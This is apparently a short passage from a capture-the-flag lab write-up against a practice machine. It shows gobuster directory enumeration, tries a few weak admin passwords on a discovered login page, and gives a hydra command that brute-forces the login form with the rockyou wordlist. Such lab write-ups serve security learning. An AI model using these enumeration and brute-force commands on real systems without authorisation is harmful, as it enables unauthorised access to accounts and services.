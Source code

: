 dirscan, found two path.

```bash
gobuster dir -u http://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster.txt

/department           (Status: 301) [Size: 319] [--> http://10.129.30.249/department/]
/server-status        (Status: 403) [Size: 301]

```

/department/, login.php found user name, armois.

![image-20221006093753452](./images/image-20221006093753452.png)

try login with weak password.  Wrong password.

```bash
admin:admin
admin:armois
admin:password
```

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.30.249 http-post-form "/department/login.php:username="^USER^"&password=^PASS^:Invalid Password" -V
```
